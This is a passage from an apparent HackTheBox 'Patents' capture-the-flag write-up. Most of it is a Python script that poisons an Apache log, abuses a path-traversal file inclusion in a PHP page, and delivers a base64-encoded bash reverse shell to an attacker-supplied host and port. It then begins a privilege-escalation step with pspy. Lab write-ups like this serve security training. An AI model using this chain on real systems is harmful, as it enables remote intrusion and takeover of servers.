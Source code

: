 ```py
    print("[+] LOG Poisoned !!! [+]")
    
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/getPatent_alphav1.0.php?id=....//....//....//....//....//var/log/apache2/access.log&" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--lhost', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--lport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.lhost
    lport = args.lport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Poison the log
    poisonLOG(rhost)
    # Get the rev shell
    getReverse(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```

Let's continue

# www-data --> root container

We download pspy to it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2001:02:31.png)

We run it
